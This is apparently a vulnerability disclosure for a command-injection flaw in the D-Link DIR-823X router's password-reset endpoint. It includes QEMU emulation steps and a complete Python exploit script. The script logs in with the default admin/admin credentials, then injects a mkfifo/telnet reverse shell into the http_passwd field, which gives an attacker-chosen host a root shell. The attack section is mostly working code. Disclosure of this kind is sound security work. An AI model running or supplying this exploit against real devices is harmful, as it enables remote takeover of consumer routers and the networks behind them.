 Dlink-dir-823x-set-password command injection
Vulnerability Details
Affected firmware: 20250416
Impact: Remote unauthenticated attackers can execute arbitrary commands as root.

The password reset function in this backend
The blacklist has verified the parameters but can be bypassed using&. It should be noted that we need to verify the old password here, which is hard coded admin. We can simply construct old_ passwd as admin.

Supplier website：[https://www.dlink.com.cn/]![1751864060649](C:\Users\asus\AppData\Roaming\Typora\typora-user-images\1751864060649.png)



​                         ![1751864259149](C:\Users\asus\AppData\Roaming\Typora\typora-user-images\1751864259149.png)

Blacklist not verified&

![1751864329902](C:\Users\asus\AppData\Roaming\Typora\typora-user-images\1751864329902.png)

![1751864151924](C:\Users\asus\AppData\Roaming\Typora\typora-user-images\1751864151924.png)

User simulation

```
sudo chroot ./ ./qemu-aarch64-static -- ./usr/sbin/goahead -f
```

Configure network card

```
ip link add name br-lan type bridge

ip link set br-lan up

ip addr add 192.168.1.1/24 dev br-lan
```

exp

```
import requests
import hmac
import hashlib
import re

def extract_cookies(response):
    cookie_header = response.headers.get('Set-Cookie', '')
    session_id = re.search(r'sessionid=([^;]+)', cookie_header)
    auth_token = re.search(r'token=([^;]+)', cookie_header)
    return (
        session_id.group(1) if session_id else None,
        auth_token.group(1) if auth_token else None
    )

def fetch_login_page(host_ip):
    url = f"http://{host_ip}/login.html"
    response = requests.get(url)
    if response.status_code == 200:
        return extract_cookies(response)
    return None, None

def encrypt_password(password, token):
    return hmac.new(token.encode(), password.encode(), hashlib.sha256).hexdigest()

def submit_login(host_ip, username, hashed_password, session_id, token):
    url = f"http://{host_ip}/goform/login"
    payload = {
        "username": username,
        "password": hashed_password,
        "token": token
    }
    cookies = {'sessionid': session_id, 'token': token}
    return requests.post(url, data=payload, cookies=cookies)

def send_set_wifidog_settings_request(host_ip, session_id, token, ip, port):
    url = f"http://{host_ip}/goform/set_password"
    payload = {
        "http_passwd": f"1\" && ash -c \"mkfifo /tmp/meigui1 && telnet {ip} {port} 0</tmp/meigui1|/bin/sh >/tmp/meigui1",
        "old_passwd": "admin",
        "token": token
    }
    cookies = {'sessionid': session_id, 'token': token}
    return requests.post(url, data=payload, cookies=cookies)

def main():
    host_ip = input("路由器地址 (如 192.168.1.1): ")
    username = "admin"
    password = "admin"
    ip = input("你的监听 IP (如 192.168.1.100): ")
    port = input("你的监听端口 (如 6666): ")

    session_id, token = fetch_login_page(host_ip)
    if not session_id or not token:
        print("[×] 获取 login.html 失败")
        return

    hashed_pwd = encrypt_password(password, token)
    login_resp = submit_login(host_ip, username, hashed_pwd, session_id, token)
    if login_resp.status_code != 200:
        print("[×] 登录失败")
        return

    # 登录成功后重新获取 cookie（有些设备会变）
    session_id, token = extract_cookies(login_resp)
    if not session_id or not token:
        print("[×] 登录后提取 token 失败")
        return

    # 发起注入利用
    exploit_resp = send_set_wifidog_settings_request(host_ip, session_id, token, ip, port)
    if exploit_resp.status_code == 200:
        print("[√] 利用请求已发送，检查你的监听端口！")
    else:
        print("[×] 利用请求失败", exploit_resp.status_code)

if __name__ == "__main__":
    main()


```

